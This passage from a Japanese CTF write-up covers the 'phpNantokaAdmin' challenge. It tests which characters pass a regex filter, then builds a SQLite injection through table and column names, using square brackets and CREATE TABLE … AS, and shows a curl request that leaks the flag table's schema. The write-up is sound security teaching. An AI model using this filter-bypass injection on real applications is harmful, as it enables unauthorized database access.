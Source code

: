 `is_valid` 関数を通過できる文字を確認しましょう。

```
$ cat test.php
<?php
function is_valid($string) {
  $banword = [
    // comment out, calling function...
    "[\"#'()*,\\/\\\\`-]"
  ];
  $regexp = '/' . implode('|', $banword) . '/i';
  if (preg_match($regexp, $string)) {
    return false;
  }
  return true;
}

$res = '';
for ($i = 0x20; $i < 0x7f; $i++) {
  $c = chr($i);
  if (is_valid($c)) {
    $res .= $c;
  }
}

echo $res . "\n";
$ php test.php
 !$%&+.0123456789:;<=>?@ABCDEFGHIJKLMNOPQRSTUVWXYZ[]^_abcdefghijklmnopqrstuvwxyz{|}~
```

`[` と `]` が使えるようです。SQLite においてはバックティックのかわりに [`[` と `]` でキーワードを囲むことが](https://www.sqlite.org/lang_keywords.html)できます。これは `/*` と `*/` でコメントアウトするかわりに使えそうです。

また、SQLite には [`CREATE TABLE … AS`](https://www.sqlite.org/lang_createtable.html) という構文があり、これによって別のテーブルからテーブルを作成できます。

これらを利用して、テーブルの作成時にテーブル名に `t AS SELECT sql [` を、カラム名に `]FROM sqlite_master;` を入れることで、

```sql
CREATE TABLE t AS SELECT sql [ (dummy1 TEXT, dummy2 TEXT, `abc` ]FROM sqlite_master;);
```

という `CREATE TABLE t AS SELECT sql FROM sqlite_master;` と等価 (` (dummy1…` は `sql` のエイリアスとして解釈される) な SQL 文が発行され、テーブルの表示時にフラグが入っているテーブルの名前とカラム名を手に入れることができます。

```
$ curl 'http://3.112.201.75:8002/?page=create' -b cookie.txt -c cookie.txt -L -H 'Content-Type: application/x-www-form-urlencoded' --data 'table_name=t+AS+SELECT+sql+%5B&columns%5B0%5D%5Bname%5D=abc&columns%5B0%5D%5Btype%5D=%5DFROM+sqlite_master%3B'
<!doctype html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <link rel="stylesheet" href="style.css">
    <script src="https://code.jquery.com/jquery-3.4.1.min.js" integrity="sha256-CSXorXvZcTkaix6Yvo6HppcZGetbYMGWSFlBw8HfCJo=" crossorigin="anonymous"></script>
    <title>phpNantokaAdmin</title>
  </head>
  <body>
    <h1>phpNantokaAdmin</h1>
    <h2>t (<a href="?page=delete">Delete table</a>)</h2>
    <form action="?page=insert" method="POST">
      <table>
        <tr>
          <th> (dummy1 TEXT, dummy2 TEXT, `abc` </th>
        </tr>
        <tr>
          <td>CREATE TABLE `flag_bf1811da` (`flag_2a2d04c3` TEXT)</td>
```